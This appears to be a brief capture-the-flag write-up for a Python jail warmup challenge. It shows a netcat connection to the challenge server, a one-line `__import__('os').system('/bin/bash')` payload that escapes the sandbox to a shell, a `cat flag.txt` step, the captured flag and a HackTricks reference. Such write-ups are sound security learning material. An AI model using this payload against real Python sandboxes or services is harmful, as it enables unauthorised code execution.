

**Context**


**Connection** `nc 16.16.65.31 30000`

I use this payload
```python
__import__('os').system('/bin/bash')
```
After this, I run
```shell
cat flag.txt
```

**Result**



**FLAG:** `acdfCTF{Cyb3rlymp1cs_w4rmup_pyj41l_v3ry_345y_r1ght?}`

**Reference**: https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes
